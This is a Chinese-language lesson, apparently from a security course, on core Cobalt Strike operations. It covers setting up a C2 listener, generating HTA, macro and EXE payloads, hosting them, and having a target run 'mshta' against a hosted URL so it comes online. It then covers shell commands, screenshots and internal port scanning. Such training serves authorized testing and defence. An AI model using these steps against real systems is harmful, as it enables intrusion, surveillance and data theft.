# 网络安全系统教程：P28：15.CobaltStrike常用功能 🛡️



## 概述
在本节课中，我们将学习渗透测试框架CobaltStrike（简称CS）的核心功能与基本操作。课程将涵盖从连接服务器、创建监听器到生成载荷、控制靶机的完整流程，帮助你掌握CS的基础使用方法。

---

## 界面与工具栏功能

上一节我们了解了CS的基本概念，本节中我们来看看其主界面和工具栏的各项功能。





以下是工具栏主要功能的介绍：



1.  **连接/断开服务器**：图标1和2分别代表连接到团队服务器或断开当前服务器的连接。
2.  **查看监听器**：图标3代表查看所有已创建的监听器（Listener）。创建监听器是让靶机上线并与我们服务端通信的前提。
3.  **视图切换**：图标4到6分别对应CS的三个主要视图：服务器节点视图、会话（Session）列表视图和目标列表视图。
4.  **信息查看与管理**：图标7到10的功能分别是：查看已获取的凭据信息、查看下载的文件、查看键盘记录、查看屏幕截图。
5.  **生成Stageless木马**：图标11用于生成Stageless的EXE木马文件。Stageless载荷包含了所有功能代码，体积较大，在网络环境差时可考虑使用，但也更容易被查杀。
6.  **已淘汰功能**：图标12（设定代码签名程序攻击）已淘汰，不做讲解。
7.  **生成恶意Office宏**：图标13用于生成嵌入恶意宏代码的Office文档，诱使靶机执行以上线。
8.  **Web投递**：图标14用于建立Web Delivery。这是一种无文件攻击方式，恶意代码在内存中执行，不会在磁盘留下文件。
9.  **文件托管与管理**：图标15用于在Web服务器上托管文件。图标16用于管理这些托管的应用或文件。
10. **帮助与关于**：图标17和18分别是帮助和关于信息。



快捷工具栏的功能就介绍到这里，无需死记硬背，在实际操作中多使用即可掌握。渗透测试的关键在于动手实践。

听课与动手操作是完全不同的体验。即使完整听完三个月的课程，如果没有实际操作，在面对真实测试环境时，可能会无从下手。因此，务必动手练习。

---

## 用户通信与连接





首先，我们可以进行团队内部的用户通信。通信功能很简单，在输入框中直接发送消息，例如：`hello`。





所有在线的客户端都会收到这条广播消息。当然，也可以进行私聊，使用命令格式：`msg [客户端ID] [消息内容]`。

如果想连接演示所用的服务器，IP地址是：`10.10.100.128`。想观察靶机上线的过程，可以登录此服务器查看。密码是`password`。

---

## 核心操作：创建监听器

在CS中进行任何操作，首先都需要创建监听器（Listener）。没有监听器，后续攻击无法进行。

以下是创建监听器的步骤：

1.  点击 **Cobalt Strike** -> **Listeners** 打开监听器管理窗口。
2.  点击 **Add** 按钮创建新的监听器。
3.  输入监听器名称，例如 `demo`。
4.  选择Payload（载荷类型）。CS 4.0中常见的选项有：
    *   `Beacon`：CS自带的Payload。
    *   `Beacon DNS`：通过DNS协议通信。
    *   `Beacon HTTP` / `Beacon HTTPS`：通过HTTP/HTTPS协议通信。
    *   `Beacon SMB`：通过SMB协议通信（常用于内网横向移动）。
    *   `Beacon TCP`。
    本教程以 `Beacon HTTP` 为例。
5.  配置Payload参数：
    *   **HTTP Hosts**：设置为团队服务器的公网IP地址（例如 `10.10.100.128`）。这是Beacon回连的地址。
    *   **HTTP Host (Stager)**：同样设置为服务器IP。Stager用于传输初始的引导代码。
    *   **HTTP Port**：设置监听的端口，例如 `8080`。不建议使用80端口，容易与服务器上其他服务冲突。
6.  点击 **Save** 保存，然后点击 **Start` 启动监听器。



监听器启动后，可以在服务器上使用命令 `netstat -antulp | grep 8080` 验证端口是否在监听状态。





---





## 生成攻击载荷与上线靶机

创建好监听器后，下一步就是生成攻击载荷并诱使靶机执行，从而使其上线。





攻击载荷生成位于 **Attacks** 菜单下。以下是主要选项：



*   **Packages**：生成各种格式的载荷。
    *   `HTML Application`：生成恶意的HTA文件。
    *   `MS Office Macro`：生成恶意的Office宏文档。
    *   `Payload Generator`：生成多种语言版本的Payload。
    *   `Windows Executable`：生成可执行的EXE文件（默认32位，可勾选64位）。
    *   `Windows Executable (S)`：生成Stageless的EXE文件（全功能木马，体积大）。
*   **Web Drive-by**：基于Web的攻击向量。
    *   `Manage`：管理当前开启的Web服务。
    *   `Clone Site`：克隆钓鱼网站。
    *   `Host File`：在服务器端口提供文件下载。
    *   `Scripted Web Delivery`：为Payload提供Web下载服务（类似MSF的`exploit/multi/script/web_delivery`）。







**让靶机上线的示例（使用HTML Application）：**

1.  在 **Attacks** -> **Packages** -> **HTML Application** 中，选择之前创建的监听器（如`demo (HTTP)`）。
2.  选择执行方法，例如 `PowerShell`。
3.  保存生成的HTA文件到本地（如桌面）。
4.  需要让靶机能访问到这个文件。使用 **Attacks** -> **Web Drive-by** -> **Host File**。
    *   选择刚才保存的HTA文件。
    *   设置托管端口，例如 `9090`（避免使用80）。
    *   点击 **Launch**，会生成一个类似 `http://10.10.100.128:9090/xxx.hta` 的URL。
5.  在靶机（例如IP为 `192.168.123.131` 的Win7系统）上，通过命令行或其他方式访问此URL。例如，使用命令：`mshta http://10.10.100.128:9090/xxx.hta`。
6.  执行后，稍等片刻，在CS的会话（Sessions）视图中就能看到靶机上线。



---



## 与上线靶机进行交互



靶机上线后，我们可以对其进行一系列操作。





**基本交互流程：**

1.  在会话列表中，右键点击上线的靶机，选择 **Interact**，打开交互式命令行界面。
2.  首先，通常需要修改心跳间隔（sleep时间），以避免流量特征过于明显。默认可能是60秒。
    *   命令：`sleep 2` （设置为2秒）。**注意**：在真实环境中，过短的sleep时间容易被IDS检测。
3.  使用 `shell` 命令执行系统命令。格式：`shell [cmd命令]`。
    *   例如：`shell whoami` 查看当前权限。
    *   例如：`shell ipconfig` 查看网络配置。
4.  输入 `help` 可以查看所有可用的Beacon命令。

**其他常用功能（在靶机右键菜单中）：**



*   **Access**：提权相关模块。
*   **Explore**：
    *   `Browser Pivot`：浏览器代理。
    *   `File Browser`：文件浏览器。
    *   `Process List`：进程列表。
    *   `Screenshot`：屏幕截图（截图后可在 **View** -> **Screenshots** 中查看）。
    *   `Port Scan`：端口扫描（可扫描靶机所在内网网段）。
*   **Pivoting**：代理转发，用于内网横向移动。



例如，进行端口扫描后，可以在 **View** 菜单切换到 **Targets** 视图，查看发现的存活主机和开放服务，为后续内网渗透做准备。







---



## 脚本管理与总结

CS支持通过加载第三方 `.cna` 脚本进行功能扩展。

1.  点击 **Cobalt Strike** -> **Script Manager**。
2.  点击 **Load**，选择你的 `.cna` 脚本文件。
3.  加载成功后，脚本功能会集成到CS的菜单或命令中。



**本节课总结：**
本节课我们一起学习了CobaltStrike的核心操作。我们从连接服务器、创建监听器开始，逐步演示了如何生成攻击载荷（以HTA文件为例）并诱使靶机上线。上线后，我们学习了如何与靶机进行交互，包括执行命令、信息收集、屏幕截图和端口扫描等基本后渗透操作。最后，了解了CS的脚本扩展功能。请记住，渗透测试工具必须在合法授权的范围内使用，未经授权使用可能违反法律法规。





**重要提醒**：CobaltStrike和Metasploit是功能强大的渗透测试框架，集成了大量可能修改系统、留下后门的工具。**严禁对未授权目标进行任何测试**，否则将可能触犯《网络安全法》。仅在获得明确授权的渗透测试工作中使用它们。